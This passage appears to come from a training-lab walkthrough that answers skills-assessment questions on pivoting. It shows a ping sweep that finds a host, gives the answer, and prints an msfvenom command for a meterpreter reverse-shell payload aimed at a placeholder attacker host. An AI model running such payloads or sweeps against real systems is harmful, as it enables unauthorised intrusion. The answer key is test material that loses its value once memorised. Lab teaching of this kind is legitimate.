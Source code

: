 After connecting successfully and checking the network interfaces, students will notice that the machine is on the `172.16.5.0/16` network:

Code: shell

```shell
ip a
```

```
webadmin@inlanefreight:~$ ip a

<SNIP>
3: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:48:60 brd ff:ff:ff:ff:ff:ff
    inet 172.16.5.15/16 brd 172.16.255.255 scope global ens192
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:4860/64 scope link 
       valid_lft forever preferred_lft forever
```

Therefore, students need to use a ping sweep to enumerate other hosts on the same network. Students will find that the other active host has the IP address `172.16.5.35`.:

Code: shell

```shell
for i in {1..254};do (ping -c 1 172.16.5.$i | grep "bytes from" &); done
```

```
webadmin@inlanefreight:~$ for i in {1..254};do (ping -c 1 172.16.5.$i | grep "bytes from" &); done

64 bytes from 172.16.5.15: icmp_seq=1 ttl=64 time=0.036 ms
64 bytes from 172.16.5.35: icmp_seq=1 ttl=128 time=0.771 ms
```

Answer: `172.16.5.35`

# Skills Assessment

## Question 4

### "Use the information you gathered to pivot to the discovered host. Submit the contents of C:\\Flag.txt as the answer."

First, students need to generate a Linux `meterpreter` payload to setup for pivoting through `Metasploit`:

Code: shell

```shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=PWNIP LPORT=PWNPO -f elf -o 99c0b43c4bec2bdc280741d8f3e40338.elf
```
